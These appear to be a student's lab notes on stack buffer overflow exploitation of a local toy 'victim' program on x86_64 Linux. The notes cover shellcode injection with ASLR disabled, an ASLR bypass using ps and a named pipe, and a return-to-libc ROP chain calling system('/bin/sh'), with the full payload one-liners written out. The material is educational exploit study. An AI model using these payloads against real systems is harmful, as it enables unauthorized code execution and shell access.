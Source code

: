 
##Some Assembly Required:

shell.c is a simple program to run /bin/sh

##The Shell Game:

objdump shows us where the asm code is in memory.
My addresses are slightly different than his but still take up the same amount of space.

####xxd 
xxd creates a hexdump of the input file.

##Learn bad C in only 1 hour!

####CDECL

He mentions the CDECL calling convention is the reason we can pull off this buffer overflow attack. After looking it up I think it is due to the fact that in the CDECL convention, the calling function cleans the stack. This allows us to have variable-length argument lists and because of this we can go past the buffer size and put our malicious code in.

##The Three Trials of Code Injection

####setarch
setarch changes the architecture in new program environment. He uses this command with the -R flag which allows us to disable the randomization of the virtual address space.

My arch is x86_64.

####Buffer Location

After disabling the stack protection during compiling and disabling the executable space protection using the execstack command, we run our victim file with the setarch command and see the buffer location.
```
setarch x86_64 -R ./victim
0x7fffffffdc50
What's your name?
Damien
Hello, Damien!
```

####Carrying out the Attack

After getting the buffer location in little endian, we can run the command:
```
((cat shellcode; printf %080d 0; echo $a) | xxd -r -p; cat) | setarch x86_64 -R ./victim
```
This command writes our shellcode into the buffer, fills in the rest of the name buffer with 0's and then puts 8 more 0's in to zero out the base pointer. With the last 8 bytes, we put the address of the beginning of the stack so that the program goes back into the stack and runs our shellcode, thus providing us with a shell to execute as our heart desires.

##The Importance of Being Patched

####ps
ps command on UNIX reports to us a snapshot of the current process. Using the flag -eo allows us to see all processes on the system (e flag) while also allowing us to format the output as we desire (o flag). He asks for the ESP in his command giving us the stack pointers of the processes currently running on the machine.

Once our program is running without ASLR (thanks to the setarch command) we can take a look into the process from another terminal with the command:

```
ps -o cmd,esp -C victim
```

This gives us an output of:
```
CMD                              ESP
./victim                    ffffdbe8
```
This tells us that while the victim program is waiting for user input, the stack pointer is at 0x7fffffdbe8. We can now calculate the distance from this pointer to the name buffer using the location our victim program printed out for us earlier, we find this to be 88.

With this distance we found, we can now defeat ASLR. We can do this because we simply need to find the stack pointer of the process and then add this offset we found. This allows us to put our malicious code right into the place we want it, the character buffer.

####mkfifo

mkfifo is a command that allows us to create a named pipe. This allows the pipe to last beyond the life of the process.

####Attack!

After running the program with ASLR enabled in the named pipe, we can start our attack from a different terminal using this string of commands:
```
$ sp=`ps --no-header -C victim -o esp`
$ a=`printf %016x $((0x7fff$sp+88)) | tac -r -s..`
$ ((cat shellcode; printf %080d 0; echo $a) | xxd -r -p; cat) > pip
```

The first command gets the stack pointer of the victim process. The next gets the address of the character buffer by adding 88 to the stack pointer address and converts this address to little endian. Finally we pull off the attack in the last command by injecting our code.

In this approach we must type the shell commands in the same place we run the last three commands. This is because this is the shell that is taking input in and sending it to our named pipe.


##Executable space perversion

If we re-enable the executable space protection with the command:

```
execstack -c victim
```

We can see that the above attacks don't work anymore. This is because the stack is now marked nonexecutable and thus our shellcode will not be able to run.

Return oriented programming can fix this issue. 

In return oriented programming, the buffer is not filled with code we need to execute anymore, it is instead filled with addresses of pieces of code we want to run. Each snippet of code is ended with a RET instruction. This RET instruction will increment our stack pointer by 8, thus bringing us to the address of a new piece of code. This code now runs and the cycle continues.

A sequence of code ending in RET is called a gadget.

##Go go gadgets

To pull of our attack using rop, we are going to call the system() function with "/bin/sh" as the argument.

First we find libc's compiled libraray file with the comand:

```
locate libc.so
```

Now that we found the proper file, we can search for gadgets in the file using the command:

```
objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -B5 ret
```

This command will get us all the snippets of code that end in a RET instruction in the libc.so file.

According to the notes, we want to execute the instructions:

```
pop  %rdi
retq
```

while the pointer to "/bin/sh" is at the top of the stack. As far as I understand, this will assign the pointer to %rdi which will allow us to execute the shell once the stack pointer is advanced.

We need to find these two instructions somewhere in our libc code. To do this we use the command:

```
xxd -c1 -p /lib/x86_64-linux-gnu/libc.so.6 | grep -n -B1 c3 | grep 5f -m1 | awk '{printf"%x\n",$1-1}'
```

This command works by searching the libc code for the corresponding machine code to the instructions we want to execute. After running the command I get 22b9a. This means that at address 0x22b9a the two instructions we want to execute exist. 

Now all we need to do is overwrite our return address with the address of our instructions, the address of "/bin/sh" and finally the address of the system() function. This will guarantee that on the next RET instruction the address of "/bin/sh" will be put into %rdi and the system command will execute the shell.

##More happy returns

While running our victim program in one terminal without ASLR we run the commands:

```
$ pid=`ps -C victim -o pid --no-headers | tr -d ' '`
$ grep libc /proc/$pid/maps
```

The first command gets us the pid of the victim process. The grep command after that allows us to see where libc was loaded into memory for the victim process.

Thanks to our search before, we now know exactly where the instructions we want to execute lie in memory for our victim process. This address is found by adding the location of the instructions in libc to the location where libc was loaded into memory for our victim process. That address winds up being 0x7ffff7a15000 + 0x22b9a.

As to where to put "/bin/sh" we can put it in the beginning of the buffer at location 0x7fffffffdc40 (0x60 needs to be added to this because the new version of Linux organizes the stack differently).

Finally we need the location of the system() function. This can be found by running the command:

```
nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep '\<system\>'
```

We see that the system() function lies at address 0x7ffff7a15000 + 0x46590.

We now have all the pieces to run our attack. We do this by using the following command:

```
(((printf %0144d 0; printf %016x $((0x7ffff7a15000+0x22b9a)) | tac -rs..; printf %016x 0x7fffffffdca0 | tac -rs..; printf %016x $((0x7ffff7a15000+0x46590)) | tac -rs.. ; echo -n /bin/sh | xxd -p) | xxd -r -p) ; cat) | setarch x86_64 -R ./victim
```

After hitting enter a few times we see that we are successfully in a shell!


